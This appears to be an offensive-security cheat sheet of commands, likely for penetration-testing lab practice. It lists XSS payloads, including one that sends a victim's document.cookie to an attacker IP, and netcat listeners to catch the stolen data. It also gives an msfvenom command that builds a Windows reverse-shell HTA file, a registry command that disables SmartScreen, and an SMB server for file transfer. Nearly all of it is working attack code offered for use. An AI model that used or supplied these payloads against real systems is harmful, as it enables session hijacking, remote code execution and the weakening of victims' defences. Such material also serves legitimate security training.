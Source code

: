 ## XSS Alert
```html
<script>alert(‘XSS’)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

## XSS Iframe
```bash
# Start a listener on your attacking machine
sudo nc -nvlp 4444
```
```html
# input the code below in to the vulnerable appliction
<iframe src=http://192.168.119.152:4444/report height=”0” width=”0”></iframe>
```

## XSS Steal Admin Cookie
```bash
# Start a listener on your attacking machine
sudo nc -nvlp 80
```
```html
# input code below in to the vulnerble web app
<script>new Image().src="http://192.168.119.152/cool.jpg?output="+document.cookie;</script>
```
### Using the cookie
Use Firefox-Addon "Cookie Editor" to use the cookie:
https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/

# HTML Application Reverse Shell

## Use msfvenom to create a reverse shell in windows
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.152 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

# Post Exploitation


## Disable Smart Screen
Run this from Windows Command Prompt
```
REG ADD "HKLM\Software\Microsoft\Windows\CurrentVersion\AppHost" /v EnableWebContentEvaluation /t REG_DWORD /d 0
```
## Host your own smb server to transfer files to target
This will run a smb server called \\\kali on your machine
```
 sudo impacket-smbserver kali /home/kali -smb2support -username kali -password kali
 ```
